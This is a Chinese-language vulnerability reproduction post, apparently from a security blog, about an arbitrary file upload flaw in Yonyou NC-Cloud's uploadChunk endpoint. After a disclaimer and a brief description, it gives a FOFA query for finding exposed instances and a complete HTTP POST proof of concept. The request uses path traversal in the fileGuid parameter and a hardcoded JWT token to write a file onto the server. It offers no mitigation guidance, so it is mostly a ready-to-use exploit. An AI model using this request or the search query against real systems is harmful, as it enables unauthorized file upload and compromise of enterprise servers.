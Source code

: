 # 原创
：  漏洞复现--用友NC-Cloud uploadChunk 任意文件上传

# 漏洞复现--用友NC-Cloud uploadChunk 任意文件上传

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

NC Cloud是指用友公司推出的大型企业数字化平台。支持公有云、混合云、专属云的灵活部署模式。该产品uploadChunk文件存在任意文件上传漏洞。

### 二：漏洞影响版本

未知

### 三：网络空间测绘查询

fofa：<br/> `app="用友-NC-Cloud"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/f2bd01f7fe86ab37f0e316a1e192262d.jpeg"/>

### 四：漏洞复现

POC：

```
POST /ncchr/pm/fb/attachment/uploadChunk?fileGuid=/../../../nccloud/&amp;chunk=1&amp;chunks=1 HTTP/1.1
Host: 127.0.0.1
Content-Type: multipart/form-data; boundary=024ff46f71634a1c9bf8ec5820c26fa9
accessTokenNcc: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiIxIn0.F5qVK-ZZEgu3WjlzIANk2JXwF49K5cBruYMnIOxItOQ
 
--024ff46f71634a1c9bf8ec5820c26fa9
Content-Disposition: form-data; name="file"; filename="test.txt"
 
test
--024ff46f71634a1c9bf8ec5820c26fa9--

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b1b21eff63f506dae620ef2b624a39d4.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/655558d3e9f31cf5695f915509baff84.jpeg"/>
